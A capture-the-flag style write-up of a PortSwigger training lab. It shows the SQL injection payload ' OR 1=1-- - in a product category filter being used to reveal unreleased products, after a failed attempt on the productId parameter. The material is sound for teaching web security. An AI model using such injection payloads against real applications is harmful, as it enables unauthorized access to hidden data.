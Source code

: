 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data | Dec 3, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data), you'll learn: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203032350.png)

**View-source:**
```html
<div theme="ecommerce">
            <section class="maincontainer">
                <div class="container">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <section class="ecoms-pageheader">
                        <img src="/resources/images/shop.svg">
                    </section>
                    <section class="search-filters">
                        <label>Refine your search:</label>
                        <a href="/">All</a>
                        <a href="/filter?category=Food+%26+Drink">Food & Drink</a>
                        <a href="/filter?category=Gifts">Gifts</a>
                        <a href="/filter?category=Lifestyle">Lifestyle</a>
                        <a href="/filter?category=Pets">Pets</a>
                    </section>
                    <section class="container-list-tiles">
                        <div>
                            <img src="/image/productcatalog/products/20.jpg">
                            <h3>Single Use Food Hider</h3>
                            <img src="/resources/images/rating3.png">
                            $58.56
                            <a class="button" href="/product?productId=9">View details</a>
                        </div>
                        <div>
                            <img src="/image/productcatalog/products/23.jpg">
                            <h3>Sprout More Brain Power</h3>
                            <img src="/resources/images/rating2.png">
                            $90.82
                            <a class="button" href="/product?productId=14">View details</a>
                        </div>
                        <div>
                            <img src="/image/productcatalog/products/52.jpg">
                            <h3>Hydrated Crackers</h3>
                            <img src="/resources/images/rating2.png">
                            $11.66
                            <a class="button" href="/product?productId=19">View details</a>
                        </div>
                        [...]
```

As you can see, **there is a `filter` page that accepts `category` GET parameter, and a `product` page that accepts `productId` GET parameter.**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203032838.png)

Hmm... What if I clicked one of the `View details` buttons?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203032910.png)

**It brings me to the `product` page with the `productId` GET parameter value `9`.**

What if I change the `9` to `1`?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203033024.png)

Hmm... Nothing weird.

**How about testing it for it is vulnerable to SQL injection?**

**Imagine this is the SQL statement of the `productId`:**
```sql
SELECT * FROM products WHERE productId = '1'
```

**What if I close that string with `'`, then returns always true via `OR 1=1`, then commented out the rest of the SQL statement?**

**Payload:**
```sql
/product?productId=1' OR 1=1-- -
```

**New SQL statement:**
```sql
SELECT * FROM products WHERE productId = '1' OR 1=1-- -
```

Will it returns every products?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203033129.png)

Hmm... Nope. It requires a valid product ID.

**How about the `filter` page?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203033640.png)

**Let's click the `Pets` filter!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203033708.png)

**Now the GET parameter value will be: `Pets`**

**Also, let's go back to the SQL statement that the lab gave us:**
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

**Hmm... Again, what if I let it returns always true via the `OR` clause?**  

**Payload:**
```sql
/filter?category=' OR 1=1-- -
```

**New SQL statement:**
```sql
SELECT * FROM products WHERE category = '' OR 1=1-- - AND released = 1
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203034318.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203034331.png)

**Now we can see there are some unreleased items!!**

# Conclusion

What we've learned:

1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
